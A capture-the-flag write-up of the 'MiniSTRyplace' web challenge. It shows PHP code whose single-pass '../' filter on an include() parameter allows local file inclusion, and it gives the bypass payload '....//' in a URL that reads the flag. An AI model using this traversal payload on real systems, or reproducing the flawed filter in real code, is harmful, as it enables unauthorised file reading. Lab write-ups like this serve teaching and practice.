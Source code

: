 ```yaml
---
title: MiniSTRyplace
date: 2021-04-25 14:03:00 +0200
categories: [web]
tags: [cyberapocalpyse2021]
toc: false
---
```


This challenge contains a _LFI_ vulnerability. You can read more about it in this [article](https://medium.com/@Aptive/local-file-inclusion-lfi-web-application-penetration-testing-cc9dc8dd3601/). (\* ^ ω ^)

The webpage looks like this:
![](/assets/img/miniSTRyplace_web.png#center)

## Vulnerability
Let's take a look at the index file `index.php`:

```php
<html>
    <header>
        <meta name='author' content='bertolis, makelaris'>
        <title>Ministry of Defence</title>
        <link rel="stylesheet" href="/static/css/main.css">
        <link rel="stylesheet" href="https://stackpath.bootstrapcdn.com/bootswatch/4.5.0/slate/bootstrap.min.css"   >
    </header>

    <body>
    <div class="language">
        <a href="?lang=en.php">EN</a>
        <a href="?lang=qw.php">QW</a>
    </div>

    <?php
    $lang = ['en.php', 'qw.php'];
        include('pages/' . (isset($_GET['lang']) ? str_replace('../', '', $_GET['lang']) : $lang[array_rand($lang)]));
    ?>
    </body>
</html>
```

We can see it checks if the param `lang` is given and if so it replaces “../” with a blank character.  If we submit “....//”, it becomes “../” allowing _path traversal_ and access to the flag.

## Exploitation
With that knowledge we just visit http://[DOCKER-IP]/?lang=....//....//....//flag and read it:

> CHTB{b4d_4li3n_pr0gr4m1ng}

٩(◕‿◕｡)۶